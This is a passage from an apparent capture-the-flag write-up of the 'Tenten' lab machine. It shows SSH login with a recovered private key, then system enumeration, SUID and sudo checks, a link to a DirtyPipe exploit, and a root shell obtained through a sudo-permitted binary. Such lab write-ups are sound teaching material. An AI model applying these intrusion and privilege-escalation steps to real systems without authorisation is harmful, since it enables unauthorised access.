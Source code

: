 <br/>
<img src="{{ site.img_path }}/tenten_writeup/Tenten_44.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tenten_writeup/Tenten_45.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

Now I can change the permissions needed by the **id_rsa key** and connect via **SSH** as the **takis** user. I start to enumerate the systems, interesting things I find: I am in the real machine and not in a container, the Codename is **Xenial**, I am in the **lxd** group (susceptible to an exploit to escalate privileges) and sudo, the `pkexec` binary has **SUID** permissions (the one I can exploit thanks to the exploit **[CVE-2022-0847-DirtyPipe-Exploit](https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit){:target="_blank"}**), I already have access to the first flag. But the most interesting thing I find when I see the special privileges that the **takis** user has is that he can execute a `fuckin` binary as the `root` user, and by testing its execution with `sudo` I can spawn a shell as the user who owns the script and I can already rooted the box.

> **Attacker Machine**:

```bash
chmod 600 id_rsa
ssh -i id_rsa takis@10.10.10.10
```

> **Victime Machine**:

```bash
export TERM=xterm
whoami
hostname
hostname -I
uname -a
lsb_release -a
# --> xenial

id
groups

find \-perm -4000 2>/dev/null
which pkexec | xargs ls -l
# -rwsr-xr-x 1 root root 23376 Jan 18  2016 /usr/bin/pkexec

sudo -l
# --> (ALL) NOPASSWD: /bin/fuckin

/bin/fuckin
/bin/fuckin whoami
sudo /bin/fuckin whoami
sudo /bin/fuckin bash
```

<br/>
<img src="{{ site.img_path }}/tenten_writeup/Tenten_46.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tenten_writeup/Tenten_47.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tenten_writeup/Tenten_48.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tenten_writeup/Tenten_49.png" width="100%" style="margin: 0 auto;display: block